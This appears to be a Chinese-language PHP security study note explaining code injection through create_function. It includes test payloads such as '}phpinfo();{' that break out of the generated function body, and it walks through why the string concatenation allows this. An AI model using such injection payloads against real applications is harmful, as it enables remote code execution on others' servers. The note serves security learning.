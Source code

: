 ## create_function

参考文章：
- https://secure.php.net/manual/zh/function.create-function.php
- http://www.laruence.com/2010/06/20/1602.html
- https://www.kingkk.com/2018/11/Code-Breaking-Puzzles-%E9%A2%98%E8%A7%A3-%E5%AD%A6%E4%B9%A0%E7%AF%87/#function

### 利用
**函数结构：**
```php
create_function ( string $args , string $code ) : string
```

**测试代码：**
```php
create_function('$a', '}phpinfo();{'); # 执行phpifno()
create_function('$a', '}phpinfo();/*');
```
![](/images/19-7-10_PHP_create_function_1.png)

**原因：**
因为create_function采用拼接的方法构造函数，所以上述过程可以想象成如下：
```php
源代码：
function fT($a) {
  echo "test".$a;
}

注入后代码：
function fT($a) {
  echo "test";}
  phpinfo();/*;
}

*/  ### 这一行是为了关闭上一个注入代码的注释
注入后的代码：
function fT($a) {
  echo "test";}
  phpinfo();{;
}
```